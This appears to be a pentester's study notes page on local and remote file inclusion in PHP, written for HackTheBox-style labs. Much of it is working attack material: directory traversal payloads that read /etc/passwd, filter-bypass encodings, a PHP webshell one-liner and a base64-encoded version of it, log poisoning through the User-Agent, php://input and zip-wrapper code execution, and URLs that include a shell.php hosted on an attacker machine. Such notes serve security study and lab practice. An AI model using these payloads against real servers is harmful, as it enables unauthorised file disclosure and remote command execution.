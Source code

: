 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# FILE INCLUSION / DIRECTORY TRAVERSAL
Usefull link:  
https://academy.hackthebox.com/course/preview/file-inclusion--directory-traversal/local-file-inclusion  

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"  
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  
....// = %2e%2e%2e%2e%2f%2f  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

Base encoded PHP webshell  
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  
"index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"  

The output of the command id can be seen in the image above. Some other files that can be included based on the scenario are /var/log/nginx/access.log, /var/log/apache2/access.log, /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log.  

## Notes
### Local File Inclusion
What is Local File Inclusion:  
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.  

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.  

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"  

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"  

Scripts can employ search and replace techniques to avoid path traversals. For example:  
$language = str_replace('../', '', $_GET['language']);  
This will attempt to replace the traversal attack.  
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../  
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.  
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.  

### LFI to Remote Code Execution  
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.  

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.  

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.  
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"  

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.  

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.  
For example we run the request "index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.  
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.  
Example "index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.  

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.  
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.  
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.  

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.  
Example: "index.php?language=http://localhost:8080/file"  

Next, use the ftp:// scheme to access shell.php present in the FTP root.  
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"  
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.  
